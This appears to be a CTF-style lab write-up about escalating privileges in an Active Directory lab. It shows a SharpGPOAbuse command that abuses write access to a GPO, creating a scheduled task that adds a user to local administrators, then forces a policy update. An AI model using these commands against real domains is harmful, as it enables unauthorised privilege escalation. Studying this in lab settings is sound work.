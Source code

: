 If want to go in deep what is happening with the generic and object stuff go through this blog
https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/genericwrite-exploit

Will  try to abuse the feature using this tool
https://github.com/FSecureLABS/SharpGPOAbuse

```
net user enterprise-security
```

![[Pasted image 20230917213122.png]]
As u can see  that only Domain admins are able to write the Global Group Memberships but will try to change that to Local Group Memberships using the above tool

```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
![[Pasted image 20230917224629.png]]


```
gpupdate /force
```
![[Pasted image 20230917225114.png]]

When i run the net user command 2 times i was able to see the changes in the output
![[Pasted image 20230917225727.png]]
Volla now we are a local group Admin hahahahahahahha so will try to read the file before were 
denied to read that.

Now it's time for SMB again 
